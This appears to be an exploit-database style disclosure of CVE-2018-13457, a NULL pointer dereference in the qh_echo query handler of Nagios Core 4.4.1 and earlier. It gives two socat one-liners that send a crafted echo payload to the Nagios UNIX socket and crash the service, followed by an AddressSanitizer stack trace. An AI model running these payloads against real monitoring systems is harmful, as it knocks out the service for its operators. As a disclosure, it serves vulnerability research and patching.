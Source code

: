 Exploit Title: Nagios Core qh_echo Denial of Service<br>
Date: 2018-07-09<br>
Exploit Author: Fakhri Zulkifli (@d0lph1n98)<br>
Vendor Homepage: https://www.nagios.org/<br>
Software Link: https://www.nagios.org/downloads/nagios-core/<br>
Version: 4.4.1 and earlier<br>
Tested on: 4.4.1<br>
CVE : CVE-2018-13457<br>
<br>
qh_echo in Nagios Core 4.4.1 and earlier is prone to a NULL pointer dereference vulnerability, which allows attackers to cause a local denial-of-service condition by sending a crafted payload to the listening UNIX socket.<br>
<br>
$ echo -ne "#echo\0" | socat unix-connect:./poc/nagios.qh -<br>
$ echo -ne “@echo\0" | socat unix-connect:./poc/nagios.qh -<br>
<br>
#0 0x4cb18b in __interceptor_strcmp.part.60 /home/user/llvm/projects/compiler-rt/lib/asan/../sanitizer_common/sanitizer_common_interceptors.inc:422<br>
#1 0x554e98 in qh_echo /home/user/nagioscore/base/query-handler.c:29:7<br>
#2 0x5543db in qh_input /home/user/nagioscore/base/query-handler.c:227:12<br>
#3 0x6fac51 in iobroker_poll /home/user/nagioscore/lib/iobroker.c:353:4<br>
#4 0x5bc334 in event_execution_loop /home/user/nagioscore/base/events.c:1136:12<br>
#5 0x53a503 in main /home/user/nagioscore/base/nagios.c:844:4<br>
#6 0x7f183c5f782f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291<br>
#7 0x42b278 in _start (/home/user/nagioscore/base/nagios+0x42b278)<br>
